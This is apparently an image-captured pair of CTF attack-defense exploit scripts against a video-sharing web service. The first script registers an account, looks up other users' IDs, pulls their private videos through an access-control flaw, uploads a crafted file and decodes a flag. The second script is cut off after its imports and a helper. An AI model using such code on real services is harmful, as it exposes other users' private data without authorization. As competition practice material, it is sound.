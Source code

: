 ```python
        s.headers.update({'User-Agent': 'python-httpx/0.23.3', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive'})
        s.get(URL)
        s.post(URL + '/newuser', data={'username': username, 'password': password})
        s.post(URL + '/checkcredentials', data={'username': username, 'password': password})

        userid = s.get(URL + f'/get_user_info_with_name/{username_f}').json()['id']

        video = s.get(URL + f'/get_private_videos/{userid}').json()[0]
        a = f'metadata_{video['name']}_{''.join(random.choices(string.digits, k=4))}.mp4'

        m = [
            video['name'],
            username_f,
            video['location']
        ]

        add_metadata('video.mp4', a, title=m[0], artist=m[1], genre=m[2])

        s.post(URL + '/app/create_video', data={
            'name': video['name'],
            'description': os.urandom(12).hex(),
            'is_private': 1,
            'location': video['location'],
            
        }, files={
            'file': open(a, 'rb'),
            'thumbnail': open('thumbnail.png', 'rb')
        })

        print(f'{a}', flush=True)
        path = '/get_video_info/' + s.get(URL + '/get_my_videos').json()[0]['path']
        print(brainfuck(s.get(URL + path).json()['description']), flush=True)
    except:
        pass

if getid:
    for round in getid:
        attack(getid[round])
else:
    attack()
```

And

```python
#!/usr/bin/env python3

import requests, re, sys, random, string
from pathlib import Path
from typing import List, Dict, Set
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms
from cryptography.hazmat.backends import default_backend

PER_LETTER = 4096 // 26
alph = string.ascii_uppercase + string.digits


def brainfuck(input):
    ...
    return output

def build_spanish_words(path: str = "spanish_words.txt") -> List[bytes]:
    raw = Path(path).read_bytes()
```